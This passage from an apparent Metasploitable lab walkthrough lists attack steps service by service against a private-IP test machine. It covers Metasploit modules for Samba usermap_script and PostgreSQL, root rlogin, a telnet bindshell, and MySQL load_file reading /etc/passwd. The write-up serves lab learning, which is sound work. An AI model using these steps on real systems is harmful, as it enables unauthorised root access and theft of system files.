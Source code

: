when you finish 

1. umount /mnt

for more info check this guy he helped me alot:
https://computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson4/index.html


################################################################################################
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

searched for the vulns on samba smdb and i found this exploit(exploit/multi/samba/usermap_script):

msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set RHOST 192.168.0.117
msf exploit(multi/samba/usermap_script) > run 

and we gained full access to the server. as easy as that ¯\_(ツ)_/¯ 

################################################################################################
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login

rlogin -l root 192.168.0.117

and you gain root access.
FACEPALM (－‸ლ)

################################################################################################
1524/tcp open  shell       Metasploitable root shell

telnet 192.168.0.117 1524

and you get shell access.
FACEPALMx2 (－‸ლ) (－‸ლ)

################################################################################################
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5

mysql -u root -h 192.168.0.117

MySQL [(none)]> show databases;
MySQL [(none)]> use mysql
MySQL [mysql]> create table foo(line blob);
MySQL [mysql]> insert into foo values(load_file('/etc/passwd'));
MySQL [mysql]> select * from foo;

and you will see the passwd file. 

use your imagination and yo can do more stuff
################################################################################################
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7

msf > use exploit/linux/postgres/postgres_payload
msf exploit(linux/postgres/postgres_payload) > set RHOST 192.168.0.117
msf exploit(linux/postgres/postgres_payload) > exploit

and you have full shell access.

################################################################################################
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
